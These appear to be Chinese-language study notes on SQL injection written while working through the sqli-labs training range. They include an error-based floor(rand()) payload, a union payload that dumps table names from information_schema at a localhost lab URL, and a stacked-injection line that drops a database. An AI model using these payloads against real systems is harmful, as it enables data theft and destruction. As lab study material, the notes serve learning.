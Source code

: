 ```mysql
select count(*),concat_ws('~',(select database()),floor(rand()*2)) as a from users group by a;
as别名，group by分组，count()汇总统计数量
rand()偶尔会出现报错，rand(0)固定报错，rand(1)不报错，原因：
当我们将count(*)去掉便不再报错，说明是在统计时出现错误
rand()函数进行分组group by和统计count()时可能会多次执行，导致键值key重复(不是很懂)
```

```sql
http://127.0.0.1/sql/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand(0)*2)) as x from information_schema.tables group by x--+
完整注入，爆表
```

### 堆叠注入

a'**;**drop database databasename;

## 学习sqli-labs靶场

### 如何判断是字符型注入还是数字型注入

使用and 1=1和and 1=2来判断

如果是字符型，就算是and 1=2，页面依旧正常显示，而数字型的话页面不会正常显示

在Less-1中提交and 1=1和提交and 1=2都能正常显示页面，则为字符型注入

在Less=2中提交and 1=2时，网页无法正常显示，判断为数字型注入

还有一种方法就是?id=2-1，如果是数字型，那么显示的页面就是?id=1，如果是字符型，显示的页面就是?id=2

```sql
字符型：
$sql="SELECT * FROM USERS WHERE id='$id' LIMIT 0,1";
提交 1 and 1=1:
$sql="SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1";
单引号闭合语句后Where语句为一个条件id=' 1 and 1=1'
数字型：
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
提交 and 1=2
$sql="SELECT * FROM users WHERE id=$id and 1=2 LIMIT 0,1";
数字型不需要闭合
```

